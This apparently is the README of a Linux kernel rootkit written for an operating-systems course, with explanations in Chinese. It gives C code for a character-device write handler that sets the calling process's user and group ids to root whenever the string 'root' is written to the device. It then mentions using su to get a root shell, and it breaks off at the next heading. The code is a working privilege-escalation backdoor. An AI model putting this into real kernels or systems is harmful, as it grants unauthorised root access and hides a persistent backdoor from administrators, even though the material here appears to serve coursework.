

# pwh_rootkit
ROOTKIT PROGRAM FOR OS COURSE
# 0x00 Priviledge Escalaction Methods
## 1. Set ID
第一种比较简单的方法,我们可以直接在写操作当中,当我们写我们注册号的字符设备时,
我们可以适当修饰咱们当前进程的`struct cred`结构体😄

```c
static ssize_t pwh_rootkit_write(struct file *file, const char __user *buf, size_t count, loff_t *start){
    static char user_data[0x100];
    int size = count > 0x100 ? 0x100:count;
    int flag;
    flag = copy_from_user(user_data, buf, size);
    
    if(!strncmp(user_data, "root", 4)){
        printk(KERN_INFO "WRITING...");
        struct cred *cur_cred = (struct cred *)current->cred;
        cur_cred->uid = cur_cred->euid = cur_cred->suid = cur_cred->fsuid = KUIDT_INIT(0);
        cur_cred->gid = cur_cred->egid = cur_cred->sgid = cur_cred->fsgid = KGIDT_INIT(0);

    }
    return size;
}
```



可以看到这里被我们成功修改成为了root权限,这里发现groups还没切换,所以使用su命令来启动一个默认的rootshell


## 2
